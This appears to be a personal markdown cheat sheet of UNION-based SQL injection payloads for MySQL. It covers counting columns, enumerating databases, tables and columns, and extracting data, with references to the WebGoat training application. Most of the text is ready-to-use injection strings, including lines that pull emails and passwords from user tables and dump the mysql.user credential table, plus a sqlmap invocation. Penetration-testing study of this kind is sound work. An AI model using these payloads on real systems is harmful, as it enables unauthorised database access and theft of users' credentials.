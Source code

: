 SQL Injection UNION Based
=========================

Notes
-----
```
-- requires a space at the end (--+) !!!!!!!!!!!!!!!!!!!!
Depending on identified injection technique use "#" or "--+" for comment.
Should use "--+" when atttack in the URL

Nice cheat sheets
https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

It is possible to use ASCII HEX encoding for some of the variable names. (Use Burp decoder/encoder)
Must be prefixed with "0x"
When using ASCII HEX, quotes are not required. Do not use them...
"databasename" when encoded would become "0x64617461626173656e616d65"
"tablename" when encoded would become "0x7461626c656e616d65"

Use sqlmap -v 7 to gather more details
sqlmap -r ./xxxxx.txt --batch -v 7 > ./yyyyyyyyyy.txt
-t TRAFFICFILE ?????????
Review results............

Add comments at end of parameter to help identify SQLInjection
Valid request returns no error
theUserName=fzappa
Returns Error
theUserName=fzappa'
Returns No Error (potentially vulnerable)
fzappa--+ORDER+BY+1
```




Get Number of Columns First (Required for further attacks)
----------------------------------------------------------
```
# Method 1
# Increment "number" by 1 and monitor response for different responses or errors.
# If the error is returned on "'+ORDER+BY+4#" then the table has 3 columns. 
'+ORDER+BY+1#
'+ORDER+BY+2#
'+ORDER+BY+3#
'+ORDER+BY+4#
'+ORDER+BY+5#
'+ORDER+BY+?............#


# Method 2
# Increment ",NULL" by adding additional ",NULL" and monitor response for different responses or errors.
# If the error is returned on "'+UNION SELECT NULL,NULL,NULL,NULL#" then the table has 3 columns. 
'+UNION+SELECT+NULL#
'+UNION+SELECT+NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL,NULL........#
```



Retrieve All Database Names
---------------------------
```
'UNION+ALL+SELECT+NULL,NULL,concat(schema_name)+FROM+information_schema.schemata#
```



Get Current Database Name and Additional Information
----------------------------------------------------
```
'+UNION+ALL+SELECT+database(),NULL,NULL#
@@datadir
@@hostname
@@version
current_role()
database()
found_rows
row_count()
schema()
session_user()
system_user()
user()
version()
```



Get Tables in Database
----------------------
```
# Table has 3 columns as identified above for this reason there are two "NULL" required. 
'+UNION+ALL+SELECT+NULL,NULL,concat(TABLE_NAME)+FROM+information_schema.TABLES+WHERE+table_schema='webgoat_coins'#
```


Get Columns When Table Name is Known
------------------------------------
```
# Table has 3 columns as identified above for this reason there are two "NULL" required. 
'+UNION+ALL+SELECT+NULL,NULL,CONCAT(column_name,'+',column_type)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name='products'+AND+table_schema='webgoat_coins'#
```


Get Data from Columns MORE NOTES NEEDED 
---------------------
```
ADD CONCAT technique!!!!!!!!!!!!!!!!!!!
INJECTION MUST RESPECT THE NUMBER OF COLUMNS. USE NULL IF REQUIRED.

'+UNION+SELECT+NULL,email,+password+FROM+customerlogin#
'+UNION+SELECT+answer,email,+password+FROM+customerlogin#


#############TESTING NOTES########################
Get data from other tables
'+UNION+SELECT+username,+password+FROM+users+

Retrieving multiple values within a single column - useful if the application only returns a single column in the response.
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```




Get Data From Other Databases
-----------------------------
```
# Need to know the dbname, tablename, and column names.
'UNION+ALL+SELECT+NULL,NULL,concat(0x28,column1,0x3a,column2,0x29)+FROM+dbname.tablename#
'UNION+ALL+SELECT+NULL,NULL,concat(0x28,user,0x3a,password,0x29)+FROM+mysql.user#

```
